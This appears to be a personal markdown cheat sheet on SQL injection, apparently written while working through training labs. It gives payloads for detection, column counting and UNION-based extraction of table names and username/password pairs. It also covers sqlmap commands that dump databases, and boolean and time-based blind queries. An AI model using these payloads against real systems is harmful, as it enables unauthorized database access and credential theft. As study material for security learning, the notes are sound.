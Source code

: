 ```yaml
---
title: SQL Injection
description: Attacks using SQL qury
---
```

## Types of SQL Injection
- In-band injection
	- error based
	- union based
- Out-of-band
- Blind injection
	- Boolean based
	- Time based
## Exploit
### In-band injection
#### Testing for SQLi
Basic:
```sql
' and 1=1--
' and 1=2--
```

Mathematical expression:
```sql
1+1
```

Fuzz to find payload. Use `Generic-SQLi.txt`
#### Determining number of columns
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
...
```

#### Find column with useful data type
Sometimes a column return NULL, find the string type column
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
#### Database version
oracle:
```sql
' UNION SELECT NULL FROM DUAL--
' UNION SELECT banner,NULL FROM v$version--
```

mysql & microsoft:
```sql
-- 2 columns
' UNION SELECT NULL, @@version #
```

#### Database content
Get table name:
```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

Get column name:
```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name+=+'users_gqgpsx'--
```

Get table content:
```sql
'+UNION+SELECT+username_rtrsqw,+password_wipatx+FROM+users_gqgpsx--
```

#### Multiple values in a column
```sql
' UNION SELECT NULL, username|| '~' ||password from users--
```

oracle
```sql
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_CIMWEI'--
'+UNION+SELECT+USERNAME_IJRSPK,+PASSWORD_WSSNNP+FROM+USERS_CIMWEI--
```

#### sqlmap
Get database name:
```bash
sqlmap <url> --dbs
```

Get table:
```bash
sqlmap <url> -D <database name> --tab
```

Data dump
```bash
sqlmap <url> -D <database name> -T <tablename> --batch --dump
```

Scanning HTTP request
```bash
sqlmap -r request.txt
```

### Blind injection
#### Boolean-based 
```sql
' AND 1=1 -- - 
```

```sql
' AND 1=2 -- -
```

#### Time-based 
```sql
SELECT SLEEP(10)
```

#### Error-based
Trigger error to trigger behavioural changes
```sql

```

Query SQL example
```sql
-- Simple SQL statements
SELECT * FROM users;
SELECT * FROM users WHERE username = 'Jessamy';
SELECT * FROM users WHERE username = 'Jessamy' and password = 'password123';
SELECT * FROM users WHERE username = 'Jessamy'-- ' and password = 'password123';

-- Substring
SELECT database()
SELECT substring(database(),1,1)

-- Booleans
SELECT * FROM products WHERE name = 'Laptop' AND 1=1;
SELECT * FROM products WHERE name = 'Laptop' AND 1=2;

-- Time delays
SELECT * FROM products WHERE name = 'Laptop' AND SLEEP(5);

-- Time delay substring
SELECT database()
SELECT IF(1=1,SLEEP(5),'a')
SELECT IF(SUBSTRING((SELECT database()),1,1)='a',SLEEP(5),'a')
SELECT IF(SUBSTRING((SELECT database()),1,1)='t',SLEEP(5),'a')
SELECT * FROM products WHERE name = 'Laptop' AND IF(1=1,SLEEP(5),'a')

-- Errors
SELECT IF(SUBSTRING((SELECT database()),1,1)='a',(SELECT table_name FROM information_schema.tables),'a')
SELECT IF(SUBSTRING((SELECT database()),1,1)='t',(SELECT table_name FROM information_schema.tables),'a')
```
## Resources
- [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Understanding SQLi Payloads](https://www.db-fiddle.com/f/nLpyQDMd49iRygnY9H7CB8/5)
